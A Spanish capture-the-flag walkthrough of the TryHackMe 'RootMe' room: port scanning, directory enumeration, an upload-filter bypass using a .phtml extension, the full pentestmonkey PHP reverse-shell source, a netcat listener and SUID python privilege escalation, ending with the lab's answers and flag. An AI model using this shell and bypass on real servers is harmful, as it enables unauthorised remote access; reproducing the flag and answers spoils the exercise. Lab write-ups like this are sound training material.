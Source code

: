 Empezamos con la fase de reconocimiento:

``` bash
❯ sudo nmap -p- -Pn --min-rate 5000 10.10.31.200
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 16:57 CEST
Nmap scan report for 10.10.31.200
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

con esto ya podemos responder la primera pregunta de tryhackme:

**Scan the machine, how many ports are open?**
Respuesta: **2**

ecaneamos los servicios de los puertos en mas profundidad con nmap:

``` bash
❯ nmap -p22,80 -sCV 10.10.181.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 18:24 CEST
Nmap scan report for 10.10.181.31
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

y con este escaner contestamos mas preguntas de tryhackme:

**What version of Apache is running?** 
Respuesta: **2.4.29**
**What service is running on port 22?** 
Respuesta: **ssh**

hacemos una enumeracion de directorios con gobuster en el servicio http:

```bash
❯ gobuster dir -u http://10.10.181.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.181.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.181.31/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.181.31/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.181.31/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.181.31/panel/]
Progress: 30428 / 220561 (13.80%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 30478 / 220561 (13.82%)
===============================================================
Finished
===============================================================
```

obtenemos los directorios de :
/upload
/panel

este ultimo es la respuesta a la siguiente pregunta:

**What is the hidden directory?**
Respuesta: **/panel/**

en este directorio encontramos una funcionalidad para subir archivos por lo que vamos a intentar si subiendo una reverse shell en php nos lo interpreta:

![uploadRootMe.png](/img/uploadRootMe.png)

una herramienta para obtener una reverse shell es [revshells](https://www.revshells.com/):

utilizamos la opcion de la reverse shell de pentestMonkey:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'IP TARGET';
$port = NUM_PUERTO;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

cambiamos la ip target y num puerto para decuarlo a nuestro caso, con nano creamos el archivo php y lo subimos a la web:


![](../img/uploadFailrootme.png)

no lo tendremos tan facil, intentaremos cambiar la extension php a ver si alguna cuela:
en el directorio uploads vemos nuestras subidas:

![Shellrootme.png](/img/Shellrootme.png)

tras unos intentos en mi caso me funciono la subida con la extension .phtml
nos ponemos a la escucha en net cat y clickamos la shell subida.

Con esto obtenemos acceso:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.181.31] 45778
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:52:21 up 30 min,  0 users,  load average: 0.00, 0.00, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ 
$ whoami
www-data
$ hostname
rootme
$ 
```

hacemos una busqueda a los permisos SUID y encontramos que tenemos SUID para el binario python:
vamos a la web de gtfobins para ver como elevar los privilegios y aplicamos el metodo:

![privrootme.png](/img/privrootme.png)

con esto obtenemos root.

por ultimo buscamos el archivo user.txt en el sistema y lo visualizamos para contestar a la ultima pregunta de tryhackme:
![flagrootme.png](/img/flagrootme.png)

**user.txt**
Respuesta: **THM{y0u_g0t_a_sh3ll}**


